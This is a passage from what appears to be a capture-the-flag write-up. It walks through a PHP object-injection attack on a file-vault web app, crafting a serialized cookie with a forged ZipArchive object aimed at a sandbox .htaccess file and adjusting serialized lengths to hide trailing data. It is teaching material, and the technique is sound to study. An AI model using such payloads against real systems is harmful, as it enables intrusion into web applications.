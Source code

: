 Let's prepare our `VaultFile` objects by **uploading two files** :
```python
upload("A")
upload("B")
```

The webapp will send us the following cookie :
```php
a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:1:"A";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:1:"B";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}}ce27b112cf5429bf6f09a905de8f4d110ab1ce6d39f27d4ec0226ab47c76721a
```

We want our malicious **partial** serialized object will be at the
start of the **second** `fakename`. The distance between the first `fakename`
and the second is 115 characters (count the distance between `"A"` and `"B"`).

Therefore, to reach `fakename` #2, we need to rename the first
`fakename` with `"../" * 115`. We'll do this later.


---

We'll want to prepare a `ZipArchive` object to inject in this cookie.
Let's create one:

```php
php > $zip = new ZipArchive();
php > $zip->fakename = "sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";
php > $zip->realname = "9";
php > echo serialize($zip);
O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";}
```

Since our goal is to call `ZipArchive->open(".htaccess", "9")`, we added a `fakename` and `realname` property containing the **parameters** we want to use.

If we inject our object as is, we will be left with a **trailing** `realname`.
This might clash with the forged `realname` we created above.

```php
"...Our malicious ZipArchiver]";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt"
                              ------------------------------(67 chars)---------------------------
```

We can remove the trailing `realname` by updating the size of the serialized
`ZipArchive->comment` parameter. The size of the **trailing section** is 67,
so we update the `comment` size accordingly.

```php
O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";}
```

---
